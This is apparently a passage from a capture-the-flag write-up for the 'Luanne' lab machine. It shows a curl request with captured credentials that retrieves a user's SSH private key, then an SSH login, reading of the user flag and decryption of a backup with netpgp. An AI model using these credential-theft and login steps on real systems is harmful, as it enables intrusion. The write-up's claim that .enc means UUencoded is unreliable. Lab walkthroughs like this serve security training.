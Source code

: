 `curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa`
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0   849k      0 --:--:-- --:--:-- --:--:-- 1274k
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

### ssh

`ssh -i michaels-id_rsa r.michaels@10.10.10.218`
```
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
luanne$ cat user.txt
ea5f0ce6************************
```

### Enumeration

* inside the `/home/r.michaels/backups` folder there is a file named `devel_backup-2020-09-16.tar.gz` - 
```diff
luanne$ pwd
/home/r.michaels/backups
luanne$ ls -la
total 12
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 .
dr-xr-x---  7 r.michaels  users   512 Sep 16 18:20 ..
-r--------  1 r.michaels  users  1970 Nov 24 09:25 devel_backup-2020-09-16.tar.gz.enc
```

**enc file extention:** The .enc file extension is used by files in the UUencoded format, which are encrypted files.

**UUenconded format:** Unix-to-Unix encode (UUENCODE) format is a form of binary-to-text encoding that originated in the Unix programs uuencode and uudecode written by Mary Ann Horton at UC Berkeley in 1980, for encoding binary data for transmission in email systems.

**Tool:** in openbsd there is tool called [netpgp](https://man.netbsd.org/netpgp.1) that can be use to encrypt or decrypt. 

* decrypt `.enc` file
```diff
luanne$ netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/devel_backup-2020-09-16.tar.gz 
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ ls -la /tmp
-rw-------   1 r.michaels  wheel  1639 Nov 29 09:07 devel_backup-2020-09-16.tar.gz
```

